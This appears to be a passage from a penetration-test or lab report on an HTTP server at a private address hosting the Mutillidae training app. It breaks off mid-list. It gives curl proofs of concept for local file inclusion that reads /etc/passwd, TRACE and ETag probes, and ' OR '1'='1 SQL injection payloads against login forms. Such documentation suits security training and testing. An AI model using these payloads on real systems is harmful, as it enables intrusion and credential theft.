 ## Exploitation

### HTTP Web Server (Port 80)

- Type: Local File Inclusion (LFI) - Discovered Endpoint
  - Details: LFI found on discovered endpoint http://192.168.1.113/cgi-bin/ with parameter file
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/cgi-bin/?file=../../../etc/passwd'
    ```
- Type: ETag Information Leak
  - Details: ETag information leak exploited
  - PoC:
    
    ```bash
curl -I http://192.168.1.113
    ```
- Type: HTTP TRACE Authentication Bypass
  - Details: HTTP TRACE method exploited for authentication bypass
  - PoC:
    
    ```bash
curl -X TRACE http://192.168.1.113
    ```
- Type: SQL Injection (Error-based Indicator)
  - Details: Possible SQL error reflection at http://192.168.1.113/mutillidae/user-info.php?username=1'
  - PoC:
    
    ```bash
curl 'http://192.168.1.113/mutillidae/user-info.php?username=1''
    ```
- Type: SQL Injection (POST - Error-based)
  - Details: SQL Injection (POST - Error-based): http://192.168.1.113/mutillidae/login.php param username
  - PoC:
    
    ```bash
curl -X POST 'http://192.168.1.113/mutillidae/login.php' --data 'username=%27+OR+%271%27%3D%271&password=test'
    ```
- Type: SQL Injection (POST - Error-based)
  - Details: SQL Injection (POST - Error-based): http://192.168.1.113/mutillidae/login.php param password
  - PoC:
    
    ```bash
curl -X POST 'http://192.168.1.113/mutillidae/login.php' --data 'username=test&password=%27+OR+%271%27%3D%271'
    ```
- Type: SQL Injection (POST - Error-based)
  - Details: SQL Injection (POST - Error-based): http://192.168.1.113/mutillidae/user-info.php param username
  - PoC:
    